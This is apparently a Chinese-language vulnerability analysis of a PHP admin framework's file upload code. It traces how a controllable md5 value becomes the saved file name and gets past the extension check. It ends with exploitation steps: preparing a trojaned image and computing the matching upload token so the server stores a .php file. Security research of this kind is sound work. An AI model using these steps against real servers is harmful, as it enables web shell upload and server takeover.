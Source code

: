                 ];
                $config['policy'] = base64_encode(json_encode($policyText));
                $config['server'] = FileService::getUploadOssUrl();
                $config['site_url'] = FileService::getBaseUriOss() . $filename;
                $config['signature'] = base64_encode(hash_hmac('sha1', $config['policy'], sysconf('storage_oss_secret'), true));
                $config['OSSAccessKeyId'] = sysconf('storage_oss_keyid');
        }
        $this->result($config, 'NOT_FOUND');
    }

主要作用如下：
1、将通过 POST 传入的 md5 值以16位字母为间隔进行分割，并拼接传入filename 的后缀
2、检测文件是否上传
3、生成 config 数组，并添加每一个键的值

之后调用 upload ，这里看文件上传处理的位置（359行
    public function upload()
        {
            $file = $this->request->file('file');
            $ext = strtolower(pathinfo($file->getInfo('name'), 4));
            $md5 = str_split($this->request->post('md5'), 16);
            $filename = join('/', $md5) . ".{$ext}";
            if (strtolower($ext) == 'php' || !in_array($ext, explode(',', strtolower(sysconf('storage_local_exts'))))) {
                return json(['code' => 'ERROR', 'msg' => '文件上传类型受限']);
            }
            // 文件上传Token验证
            if ($this->request->post('token') !== md5($filename . session_id())) {
                return json(['code' => 'ERROR', 'msg' => '文件上传验证失败']);
            }
            // 文件上传处理
            if (($info = $file->move('static' . DS . 'upload' . DS . $md5[0], $md5[1], true))) {
                if (($site_url = FileService::getFileUrl($filename, 'local'))) {
                    return json(['data' => ['site_url' => $site_url], 'code' => 'SUCCESS', 'msg' => '文件上传成功']);

                }
            }
            return json(['code' => 'ERROR', 'msg' => '文件上传失败']);
        }
跟进 move，这里弟弟用的notepad，搜了半天。
 // 文件保存命名规则
        $saveName = $this->buildSaveName($savename);
        $filename = $path . $saveName;
跟进 buildSaveName
      if (!strpos($savename, '.')) {
            $savename .= '.' . pathinfo($this->getInfo('name'), PATHINFO_EXTENSION);
        }

        return $savename;
关键点就在 最后一个if判断上 判断 $savename里是否有. 有的话就会直接 return $savename
看前面的调用发现 这个savename就是 调用move函数的第二个参数 也就是 $md5[1]：
move('static' . DS . 'upload' . DS . $md5[0], $md5[1], true))
经过buildSaveName($savename)后会直接返回$md5[1]，然后拼接在$path的后面做为文件名，后面直接调用move_uploaded_file()将文件移动到$path，在这个过程中$ma5[1]是可控的，所以我们可以直接上传php文件。首先生成带木马的图片，然后生成token值，
php > echo md5("aa");
4124bc0a9335c27f086f24ba207a4912
echo md5("4124bc0a9335c27f/086f24ba207a.php.png");
bf9b89e7c8f5f1159d8bd7aaaa9c795d
